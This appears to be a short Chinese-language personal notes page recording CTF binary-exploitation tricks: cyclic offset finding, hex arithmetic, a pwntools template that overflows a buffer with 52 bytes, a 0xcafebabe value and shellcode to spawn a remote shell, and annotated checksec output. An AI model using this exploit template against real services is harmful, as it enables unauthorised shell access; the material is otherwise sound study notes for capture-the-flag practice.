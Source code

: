 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

試bof字串：

```
>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'

echo $((0x48-0x14))

52
```

#### pwntools起手式

```
from pwn import *
# 0xcafebabe

r = remote('ip', 'port')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```

```
gdb-peda$ checksec
CANARY    : disabled //栈保护 
FORTIFY   : disabled //和栈保护都是gcc的新的为了增强保护的一种机制，防止缓冲区溢出攻击
NX        : ENABLED  //DEP
PIE       : disabled //ASLR
RELRO     : Partial  //设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。
```
